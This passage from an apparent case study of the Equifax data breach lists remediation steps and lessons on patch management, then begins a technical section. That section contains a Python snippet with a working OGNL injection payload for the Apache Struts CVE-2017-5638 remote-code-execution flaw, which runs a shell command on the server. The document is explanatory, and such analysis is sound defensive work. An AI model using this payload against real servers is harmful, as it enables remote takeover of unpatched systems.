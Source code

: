 - **Patch Management**: The company overhauled its patch management process to ensure timely application of security patches.

**Long-term Measures:**

- **Security Culture**: Equifax invested in building a stronger security culture, emphasizing the importance of cybersecurity awareness and training among employees.

- **Third-party Audits**: Regular third-party security audits were conducted to identify and mitigate vulnerabilities.

- **Consumer Protection**: Equifax offered free credit monitoring and identity theft protection services to affected individuals.

**Lessons Learned:**

The Equifax data breach underscored several critical lessons for website security:

1. **Timely Patch Management**: Ensuring that security patches are applied promptly is essential to mitigate vulnerabilities.

2. **Vulnerability Management**: Regular vulnerability assessments and penetration testing can help identify security weaknesses before attackers do.

3. **Incident Response**: Having a robust incident response plan in place allows for quick and effective action in the event of a security breach.

4. **Employee Training**: Continuous cybersecurity training for employees can help prevent security lapses and raise awareness of potential threats.

5. **Consumer Protection**: Organizations must prioritize the protection of consumer data and have measures in place to support affected individuals in case of a breach.

### Conclusion

The Equifax data breach serves as a stark reminder of the importance of maintaining strong website security practices. By learning from such high-profile incidents, organizations can better protect themselves against cyber threats and safeguard the personal information of their users.

### Technical Analysis and Code Examples

#### **Vulnerability Exploitation**

The CVE-2017-5638 vulnerability in Apache Struts is a Remote Code Execution (RCE) flaw. Here's a simplified example of how an attacker might exploit such a vulnerability:

```python
import requests

# Malicious payload to exploit the vulnerability
payload = (
    "%{(#_='multipart/form-data')."
    "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
    "(#_memberAccess?"
    "(#_memberAccess=#dm):"
    "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
    "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
    "(#ognlUtil.getExcludedPackageNames().clear())."
    "(#ognlUtil.getExcludedClasses().clear())."
    "(#context.setMemberAccess(#dm))))."
    "(#cmd='ls')."
    "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
    "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
    "(#p=new java.lang.ProcessBuilder(#cmds))."
    "(#p.redirectErrorStream(true)).(#process=#p.start())."
    "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
    "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
    "(#ros.flush())}"
)

```